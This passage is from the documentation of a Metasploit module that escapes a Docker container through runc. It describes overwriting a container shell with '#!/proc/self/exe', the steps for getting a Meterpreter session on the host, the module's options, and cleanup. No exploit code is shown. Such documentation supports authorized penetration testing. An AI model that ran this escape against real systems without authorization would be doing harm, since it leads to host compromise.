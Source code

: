 #### shell
The shell binary inside the container (set by the `OVERWRITE` option) will also
be overwritten. However, the module makes a backup prior to the overwrite and
restores it automatically. This process is relatively safe, but something can
still go wrong along the way. Again, this will need to be done manually, using
the information displayed during the module execution:
```
cp <path to the shell binary backup> <path to the shell binary>
```

## Verification Steps
1. Install Docker (see [Installation](#installation))
1. Start msfconsole
1. Get a session as root inside a Docker container
1. Do: `use linux/local/docker_runc_escape`
1. Do: `set LHOST <ip>`
1. Do: `set LPORT <port>`
1. Do: `set session <session nb>`
1. Do: `run`
1. On the host target, run `docker exec -ti <container_id> /bin/sh`
1. You should get a Meterpreter session.
1. Verify you escaped the Docker container
1. Verify `WRITABLEDIR` on the host is empty (cleanup successful)
1. Verify `docker-runc` has been restored by running `docker-runc --version`

## Options

### OVERWRITE

The shell that is going to be overwritten with `#!/proc/self/exe`. This will be
triggered by a user running `docker exec -ti <container_id> <overwritten
shell>`. Default is `/bin/sh`.

### SHELL

The shell the module will use in scripts (must be different than `OVERWRITE`
shell). During the execution, some shell script have to be executed in the
Docker container. Since the main `OVERWRITE` shell has been overwritten,
another shell must be used. Default is `/bin/bash`.

### WRITABLEDIR

A directory where you can write files. Default is `/tmp`.

## Scenarios

## Docker version 18.03.1-ce (build 9ee9f40) on Ubuntu 18.04.5 LTS
```
msf6 exploit(linux/local/docker_runc_escape) > options

Module options (exploit/linux/local/docker_runc_escape):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   OVERWRITE    /bin/sh          yes       Shell to overwrite with /proc/self/exe
   SESSION      1                yes       The session to run this module on.
   SHELL        /bin/bash        yes       Shell to use in exploit script (must be different than OVERWRITE shell)
   WRITABLEDIR  /tmp             yes       A directory where you can write files.


```